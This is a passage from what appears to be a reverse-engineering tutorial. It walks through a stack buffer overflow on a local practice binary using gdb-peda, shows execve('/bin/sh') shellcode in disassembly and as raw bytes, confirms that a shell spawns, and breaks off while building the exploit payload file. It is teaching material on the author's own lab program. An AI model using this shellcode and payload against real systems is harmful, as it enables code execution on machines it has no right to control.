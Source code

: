             gdb-peda$ 

    * Look at the top of the stack. It is **0xffffcbb8**. This is as planned. Look at what is present at **0xffffcbb8**. 

            gdb-peda$ x/11i  0xffffcbb8
            => 0xffffcbb8:	xor    eax,eax
            0xffffcbba:	push   eax
            0xffffcbbb:	push   0x68732f2f
            0xffffcbc0:	push   0x6e69622f
            0xffffcbc5:	mov    ebx,esp
            0xffffcbc7:	push   eax
            0xffffcbc8:	push   ebx
            0xffffcbc9:	mov    ecx,esp
            0xffffcbcb:	xor    edx,edx
            0xffffcbcd:	mov    al,0xb
            0xffffcbcf:	int    0x80
            gdb-peda$ 

    * This is our shellcode!. Let us just continue. This is the output. 

            gdb-peda$ continue
            Continuing.
            process 23460 is executing new program: /bin/dash
            Error in re-setting breakpoint 1: Function "func" not defined.
            warning: the debug information found in "/lib64/ld-2.23.so" does not match "/lib64/ld-linux-x86-64.so.2" (CRC mismatch).

            [Inferior 1 (process 23460) exited normally]
            Warning: not running or target is remote
            gdb-peda$ 

    * So, it is 100% confirmed that a **shell** is being spawned. 


5. Let us come back to normal executable of **bof**. Let us leave gdb aside. 

        rev_eng_series/post_12$ ./bof
        Before calling func
        Address of buffer = 0xffffcbd8

        After calling func

    * **buffer Address = 0xffffcbd8**. So, change the **build_payload.c** accordingly like this: 

            rev_eng_series/post_12$ cat build_payload.c 
            #include<stdio.h>

            int main() {

                unsigned char payload[] = 

                // Shellcode
                "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"

                // a_junk
                "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
